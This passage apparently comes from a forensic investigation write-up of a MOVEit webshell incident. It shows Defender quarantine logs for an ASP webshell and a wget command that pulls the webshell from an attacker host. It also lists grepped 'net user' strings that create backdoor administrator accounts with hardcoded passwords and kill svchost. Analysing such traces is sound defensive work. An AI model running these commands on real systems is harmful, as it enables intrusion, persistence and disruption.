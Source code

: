 ```
2023-07-12T11:17:47.511Z DETECTION_CLEANEVENT MPSOURCE_SYSTEM MP_THREAT_ACTION_QUARANTINE 0x80508023 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;
2023-07-12T11:17:47.511Z DETECTION_CLEANEVENT MPSOURCE_SYSTEM MP_THREAT_ACTION_QUARANTINE 0x80508023 Backdoor:ASP/Webshell!MSR file:C:\inetpub\wwwroot\moveit.asp;002ignedFileCheck=false, IsNotExcludedCertificate=true (FriendlySigSeq=0x0)7-12-2023 03:15:21

```

That explains why the actor gets 404 when trying to visit it. There’s also multiple quarantine events. So while the MFT only showed me the last creation time for `moveit.asp`, it seems like it was uploaded and quarantined multiple times.

There’s also the `wget` command, matching what was in the PowerShell logs:

```

wget http://10.255.254.3:9001/moveit.asp -OutFile moveit.asp

```

### Password Change

The easiest way I know of to change a user’s password (including the current user) from the command line is `net user [username] [password]`. I’ll `grep` the strings for “net user”. There’s a bunch of activity, and it’s hard to tell what’s from this event. It seems this is likely how the actor changed moveitsvc’s password:

```

net user "moveitsvc" 5trongP4ssw0rd

```

There are other instances that would be worth digging into for a real incident:

```

net user /addnet localgroup administrators
net user /add RIPPC%d rippc >nulC:\Windows\rippc.pngcmd.exe /c taskkill /f /im svchost.exeYour pc is dead!%s\Desktop\RIPPC%d.txtTHERE IS NO REMOVING THIS MALWARE I HOPE YOU LIKE USING A COMPUTER LIKE THIS!#HSTR:Trojan:MSIL/AsyncRAT.PA46!MTB
net user admi
net user admin$ hack /add
net user Administrator /active:no
net user Administrator /active:nonet user
net user d3g1d5 dwixtkj37 /add
net user d3g1d5 dwixtkj37 /addn
net user dfrg.msc-
net user guest 1234qwerr,administrator,guest,vmwareecho signature=$chicago$wmic useraccount where "name = 'guest'secedit /configure /cfgf
net user "moveitsvc" 5trongP4ssw0rd
net user %s Security1215! /addnet user %s waldo1215! /add/EXPIRES:NEVER /Active:YES&net localgroup users %s /delete&net localgroup Administrators %s /addf
net user sysadm h3l_pdesk /expires:never
net user sysadm h3l_pdesk /expires:nevern

```
